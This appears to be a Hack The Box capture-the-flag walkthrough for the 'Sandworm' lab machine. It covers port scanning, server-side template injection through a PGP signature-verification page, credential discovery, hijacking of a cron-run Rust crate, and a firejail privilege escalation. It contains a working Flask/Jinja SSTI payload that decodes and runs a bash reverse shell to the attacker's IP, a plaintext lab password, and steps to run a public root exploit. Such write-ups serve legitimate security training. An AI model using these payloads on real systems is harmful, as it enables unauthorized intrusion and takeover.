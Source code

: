   <h2> Target: Sandworm 10.10.11.218</h2>

<b>Initial Access:</b><br>
Step 1: nmap -Pn 10.10.11.218 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap shows open ports: 22, 80, 443

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.11.218 --min-rate=5000 -p 22,80,443 -sC -sV -oN nmap-sandworm 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/fd0d75b2-7411-4bf6-b67e-73d303211d46) 

Step 3: Nmap shows a redirect to https://ssa.htb.  To enable this redirect enter this into the file /etc/hosts: 10.10.11.218 ssa.htb

Step 4: Navigating to port 80 shows: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/93415648-5339-4a3d-bc4c-ab95ac7bdea3) 

Click on ‘Contact’ (top right of the page).  After clicking on ‘Contact’, the page shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/87b2aed8-87a3-441f-836a-6e800b8e93d4)
 
We see the bottom of the page shows that the website is using ‘Flask’.   

Step 5: Click on ‘guide’ (bottom of the page, right above the ‘Submit’ button).  After clicking on ‘guide’ the page shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/ce592f4b-d284-4cff-ae3a-b1912598f072) 
 
This page has a few different functions for using PGP.  

Step 6: Go to the 3rd input box where it has a function to ‘Verify Signature’.  The first box (the one on the left hand side) requires us to put in a pgp public key of our own.  To do this, first we will create pgp public and private keys using command: gpg --gen-key  

When generating the pgp keys it will ask us to enter a name.  We will use the name ‘MrAnderson’.  

Next, find the pgp public key we just created: gpg --verbose --armor --export MrAnderson
Enter the public key in the input box provided on the left hand side:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/074b1b6d-2579-4392-85cf-c93f3c3705f5) 

Step 7: The column on the right hand side requires a pgp signed message.  First, create a file called ‘test’ containing any text.  Next, to create a pgp signed message we will sign this file ‘test’ with our pgp public key: gpg --verbose -u MrAnderson --clear-sign test 
 
Enter the pgp signed message we created in the column on the right hand side: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/cad44266-3ccc-4734-a1fd-65340001d0db)

Step 8: Clicking on ‘Verify Signature’ shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/1391cff4-df76-4009-996b-9b189f122428) 

This shows our signature is valid, but more importantly we see it reflects our username ‘MrAnderson’ in the message.  

Step 9: Since the site is reflecting our input, let’s test for server side template injection.  We saw earlier that the page is using ‘Flask’ so we can try a simple payload for ‘Flask’ of {{7*7}}.  If vulnerable, it should run the multiplication of 7*7 and output 49.  

Repeat the steps we performed above for using ‘Verify Signature’ on the site.  Except this time, when creating the pgp keys choose a username of {{7*7}}.

Step 10: After putting in the proper values in both columns, click on ‘Verify Signature’.  The page shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/19772986-a2ce-4db0-8e10-9f3a8559ed5c)

The page is vulnerable to ssti, it returned 49 as our username.  

Step 11: Repeat the steps we performed above for using ‘Verify Signature’ on the site.  Except this time, when creating the pgp keys, make our username a flask reverse shell (google flask reverse shell): {{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODAvNDQzIDA+JjEK | base64 -d | bash').read() }}

** Make sure to edit the base64 part in the payload as that will be different for you.  The reason we have to base64 encode our payload inside of ‘popen’ is because certain characters are not allowed for the username for the pgp keys: base64 -w0 <<< "bash -i >& /dev/tcp/\<enter-your-ip-here\>/443 0>&1"

Step 12: Open a netcat listener to catch the reverse shell: rlwrap nc -lvnp 443

Step 13: Click on ‘Verify Signature’.  We have shell as user ‘atlas’.
_______________________________________________________________
<b>Lateral Movement:</b><br>
Step 1: The ‘/home’ directory shows a username of ‘silentobserver’.  Checking ‘/etc/passwd’ confirms there’s a user by the name of ‘silentobserver’.  

Step 2: Read the file /home/atlas/.config/httpie/sessions/localhost_5000/admin.json: cat admin.json

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e5102850-13db-4a78-b7c4-565cc6c44954)   

The file shows credentials: username ‘silentobserver’ and password ‘quietLiketheWind22’

Step 3: ssh silentobserver@ssa.htb → enter the password when prompted

We have shell as user silentobserver.  We can get the flag in /home/silentobserver/user.txt
____________________________________________________________
<b>Lateral Movement:</b><br>
Step 1: Use pspy to check for interesting background processes that may be running.  Upload pspy to the target shell.  Run pspy: ./pspy

Pspy shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/62136ecf-3c24-42f9-92ac-d547dac1986c)

Step 2: The file ‘/opt/crates/logger/src/lib.rs’ shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/cbb19b29-50d9-4de9-a7f0-8e83c5f6051a)
 
Step 3: Add into this code a command for a reverse shell (highlighted in screenshot below):    

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/009f35c4-c6c2-42b8-b051-e5c51c946079)
 
When the background process runs we will get a reverse shell as user atlas.  (Even though we had a shell as user atlas before, the shell was very limited and didn’t allow us to upgrade the shell.  The privilege escalation would not work with the limited shell we had before.)  

Step 4: Open a netcat lister to catch the reverse shell: nc -lvnp 443

Step 5: Wait a few seconds and we will get a reverse shell on our netcat listener as user atlas.   
__________________________
<b>Privilege Escalation</b><br>
Step 1:  Check user and group id: id 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/8e216bbe-6e24-4b15-b86c-5accc72a633d)

This shows our user belongs to a group called ‘jailer’.

Step 2: Check what files and directories belong to the ‘jailer’ group: find / - group jailer -ls 2>/dev/null

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0d6f4264-746d-4a8d-8bce-b0a61bc7452f)

There is one file belonging to the group ‘jailer’ and it has suid permissions.  

Step 3: Check if there are any known exploits for ‘firejail’.  A quick google search shows that 'firejail' has known exploits:  

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/57df040d-6cdd-460e-83e5-72bc736ee0b6)

Step 4: In order to know which exploit for firejail we should focus on we will check what version of firejail the target is using: /usr/local/bin/firejail --version

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/5b2a95c5-a899-470a-95b9-59d4fe623156)
 
Step 5: Firejail version 0.9.68 is vulnerable.  For this exploit we will need a second ‘atlas’ shell.  A simple way to get a second shell is to use ssh keys.  

A. On the target shell, create public and private ssh keys: ssh-keygen

B. On the target shell, copy the ssh public key to ‘authorized_keys’: cp id_rsa.pub authroized_keys

C. Download the private ssh key ‘id_rsa’ to our pc.

D. On our pc, change the downloaded ‘id_rsa’ permissions: chmod 600 id_rsa

E. From our pc, login with ssh using the private ssh key: ssh -i id_rsa atlas@ssa.htb
 
Step 6: Download the exploit ‘firejoin.py’ from https://www.openwall.com/lists/oss-security/2022/06/08/10  
 
Step 7: Upload the exploit to the target shell.  

Step 8: Give ‘firejoin.py’ execute permissions: chmod +x firejoin.py

Step 9: Run the exploit: python3 firejoin.py 


![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/4aec31db-1b37-4393-b346-a8156095cba1)
  
After running the exploit, the output tells us that the next step is to run ‘firejail –join=385008 in another terminal and to then run su.  

Step 10: Go to the other target shell we have as user atlas and run: firejail --join=385008
 
Next, run the command ‘su’:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/9f3a0f2f-b915-4fad-8360-d69e055d8034)
 
We have shell as root.  We can get the flag in /root/root.txt.

